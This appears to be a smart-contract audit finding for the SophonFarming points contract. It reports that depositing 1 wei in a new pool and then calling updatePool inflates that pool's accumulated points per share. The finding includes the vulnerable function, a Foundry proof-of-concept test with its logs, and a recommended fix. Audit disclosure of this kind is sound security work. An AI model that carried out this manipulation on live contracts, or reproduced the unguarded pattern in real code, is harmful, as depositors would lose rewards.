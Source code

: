 Wobbly Olive Squirrel

high

# A malicious actor can manipulate the distribution of points

## Summary
The ``SophoFarming.sol`` contract main purpose is to calculate users points based on their deposits, it is stated that it will support different pools, where users can deposit the corresponding asset and gain points. New pools can be added after the contract has been initialized by the owner via the [add()](https://github.com/sherlock-audit/2024-05-sophon/blob/main/farming-contracts/contracts/farm/SophonFarming.sol#L153-L187) function. A malicious actor can manipulate the points for a certain pool, by backrunning the pool creation transaction and depositing  1 WEI, then in the next block he can fronrun all other transactions and call the [updatePool()](https://github.com/sherlock-audit/2024-05-sophon/blob/main/farming-contracts/contracts/farm/SophonFarming.sol#L411-L435) function, afterwards each user that deposits in that pool will be receiving much more points, than users that deposit in other pools. 

```solidity
    function updatePool(uint256 _pid) public {
        PoolInfo storage pool = poolInfo[_pid];
        if (getBlockNumber() <= pool.lastRewardBlock) {
            return;
        }
        uint256 lpSupply = pool.amount;
        uint256 _pointsPerBlock = pointsPerBlock;
        uint256 _allocPoint = pool.allocPoint;
        if (lpSupply == 0 || _pointsPerBlock == 0 || _allocPoint == 0) {
            pool.lastRewardBlock = getBlockNumber();
            return;
        }
        uint256 blockMultiplier = _getBlockMultiplier(pool.lastRewardBlock, getBlockNumber());
        uint256 pointReward =
            blockMultiplier *
            _pointsPerBlock *
            _allocPoint /
            totalAllocPoint;

        pool.accPointsPerShare = pointReward /
            lpSupply +
            pool.accPointsPerShare;

        pool.lastRewardBlock = getBlockNumber();
    }
```

As we can see from the above code snippet ``pointReward = blockMultiplier  * _pointsPerBlock  * _allocPoint  / totalAllocPoint;``
Consider the following example:
- **blockMultiplier** = 1e18
- **_pointsPerBlock** = 25e18
- **_allocPoint** = 20_000
- **totalAllocPoint** = 60_000
- **pointReward** = 8333333333333333333333333333333333333

If lpSupply is equal to 1 then  **accPointsPerShare** will be **8333333333333333333333333333333333333** as *8333333333333333333333333333333333333 / 1 = 8333333333333333333333333333333333333 ≈ 8.3e37* . 

However if the first deposit is 1e18 or more, the above calculations for **accPointsPerShare** will be as follows:
*8333333333333333333333333333333333333 / 1e18 = 8333333333333333333 ≈ 8.3e18* which is a big difference.

Given the fact that the main purpose of the contract is to track points, I believe points manipulation is of high severity.

## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/fe56fb02d00153858c484a4d293893b6)
After following the steps in the above mentioned [gist](https://gist.github.com/AtanasDimulski/fe56fb02d00153858c484a4d293893b6) add the following test to the ``AuditorTests.t.sol`` file:

```solidity
    function test_ManipulatePointDistribution() public {
        vm.startPrank(alice);
        dealWstETH(alice, 1e18);
        console2.log("Balance of alice in wstETH: ", wstETH.balanceOf(alice));
        wstETH.approve(address(sophonFarming), type(uint256).max);

        /// @notice malicious user back runs the transaction and deposits 1 WEI of the lpToken
        sophonFarming.deposit(1, 1, 0);
        SophonFarmingState.PoolInfo[] memory wstETHPool = sophonFarming.getPoolInfo();
        console2.log("Acc Points per share: ", wstETHPool[1].accPointsPerShare);

        /// @notice roll to the next block
        vm.roll(2);

        /// @notice the malicious actor can frontrun all other transactions in order to update the pool first
        sophonFarming.updatePool(1);
        SophonFarmingState.PoolInfo[] memory wstETHPool1 = sophonFarming.getPoolInfo();
        console2.log("Acc Points per share: ", wstETHPool1[1].accPointsPerShare);
        vm.stopPrank();
    }
```

```solidity
Logs:
  Balance of alice in wstETH:  860332717133233384
  Acc Points per share:  0
  Acc Points per share:  8333333333333333333333333333333333333
```

To run the test use: ``forge test -vvv --mt test_ManipulatePointDistribution``
## Impact
The distribution of points can be manipulated for a certain pool, and users who don't know about it will receive less rewards, for the same amount of deposits in different pools. The malicious actor is effectively stealing rewards from them.  Additionally adding a new pool after some time has passed, and people have already deposited in other pools, if the attacker manipulates the point distribution in the new pool, all users who have already deposited in other pools up to that point in time will be in a big disadvantage. 

## Code Snippet
https://github.com/sherlock-audit/2024-05-sophon/blob/main/farming-contracts/contracts/farm/SophonFarming.sol#L411-L435

## Tool used
Manual Review & Foundry

## Recommendation
In the transaction that the contract is inititalized, or a new pool is added create a deposit with a 1e18 amount of the lpToken for the pool. 
